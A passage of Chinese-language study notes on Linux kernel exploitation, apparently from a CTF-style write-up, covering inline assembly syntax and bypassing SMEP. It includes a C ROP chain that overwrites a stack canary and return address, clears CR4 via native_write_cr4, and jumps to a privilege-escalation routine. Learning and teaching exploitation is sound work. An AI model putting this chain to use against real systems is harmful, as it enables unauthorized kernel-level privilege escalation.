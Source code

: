 assembly code:

- `.intel_syntax noprefix` 能讓 gcc 編譯 intel 語法的 inline assembly，而 `noprefix` 是用來 disable register 的 `%` 前綴，在 `__asm__()` 的最後須要將 syntax  recover 回 `att_syntax`，確保後續的 assemble 不會壞掉 (default 是用 AT&T)，範例如下:

  ```c
  __asm__(
  ".intel_syntax noprefix \n"
  "mov rdi \n"
  "mov rsi \n"
  ".att_syntax \n"
  : input operand : output operand : clobber list
  );
  ```

- [asm inline](https://b8807053.pixnet.net/blog/post/3612016)

- [asm inline example](https://stackoverflow.com/a/37956967)



##### Next

現在讓執行環境多了 `SMEP` 的限制，對比一開始學時 Pwn 的時候，可以想像成是 stack 加了 NX，而 NX 的限制會使用 ROP 來繞過，因此有了 SMEP 的環境也可以使用 kernel ROP 來做 exploit，以下兩種情境的 exploit 方式不一樣:

- 可以任意控制 kernel stack
- 只能 overwrite return address

CR4 的第 20 bit (`0x100000`) 是用來控制 SMEP，如果有 gadget 如 `mov cr4, rdi` 可以使用，或者是原生的 kernel function `native_write_cr4(val)`，就能改寫掉 cr4 的內容。

如果要查看 cr4 的值的話，可以直接執行原本的 exploit，並在 crash 時印出的 debug information 找到 (`00000000001006f0`)，也可以透過 gdb 來看。exploit 只需改變 `overflow()` function 為:

```c
void overflow()
{
    unsigned long rop[0x20];
    int off = (0xa0 - 0x20) / sizeof(unsigned long);
    rop[off++] = canary; // 0x20
    rop[off++] = 0; // 0x18
    rop[off++] = 0; // 0x10
    rop[off++] = 0; // 0x08
    rop[off++] = pop_rdi_ret; //      <-- add
    rop[off++] = 0x6f0; //            <-- add
    rop[off++] = native_write_cr4; // <-- add
    rop[off++] = (unsigned long) esc_priv;

    if (write(devfd, rop, sizeof(rop)) < 0)
        perror("[-] write dev failed");
    puts("[+] write dev success");
}
```

`ROPgadget` 在找 gadget 時並不會判斷說哪個地方是 .text，哪個地方是 .data，因此可能會遇到 gadget 無法執行的情況。
